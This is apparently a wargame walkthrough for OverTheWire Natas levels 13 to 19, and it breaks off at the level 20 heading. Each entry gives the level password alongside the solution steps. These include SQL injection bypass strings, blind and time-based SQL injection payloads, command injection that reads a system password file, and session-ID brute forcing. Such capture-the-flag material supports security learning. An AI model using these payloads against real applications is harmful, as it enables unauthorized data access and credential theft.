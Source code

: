 	The_Next_Lvl_Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

________________________________________________________________
Natas_13 -> Natas_14

	Solution: " OR 1=1 #

	The_Next_Lvl_Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

________________________________________________________________

Natas_14 -> Natas_15

```
Blind SQL Injection
```

	Solution: natas16" AND LENGTH(password)>32 # -> burp suite intruder  where first argument is 1-32 numbers and second argument is A-Z, a-z , 0-9 : username = natas16%22 + AND + BINARY + SUBSTRING %28 password %2C §2§ %2C 1 %29 + %3D %27 §a§ %27 %23

	The_Next_Lvl_Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

________________________________________________________________

Natas_15 -> Natas_16

	Solution: try $(grep E /etc/natas_webpass/natas17)Allah -> try $(grep e /etc/natas_webpass/natas17)Allah -> brute force

	The_Next_Lvl_Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

________________________________________________________________

Natas_16 -> Natas_17

	Solution: check for time based blind sql injection -> "natas18" AND SLEEP(5) -- -> "natas18" AND IF(ASCII(SUBSTRING(password, {index}, 1)) = {ascii_value}, SLEEP(5), 0) -- -> write py brute forcer

	The_Next_Lvl_Password: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ

________________________________________________________________

Natas_17 -> Natas_18

	Solution: brute force admin's PHPSESSID -> ask chatGPt to write py code for brute forcing-> admin's PHPSESSID =119 

	The_Next_Lvl_Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr

________________________________________________________________
Natas_18 -> Natas_19

	Solution: login e.g admin:test -> PHPSESSID is 34382d61646d696e -> hex decode -> 48-admin -> write brute forcer ->  {index}-admin -> hex encode-> brute force -> via burp suite send Admin PHPSESSID -> get password

	The_Next_Lvl_Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw

________________________________________________________________
Natas_19 -> Natas_20
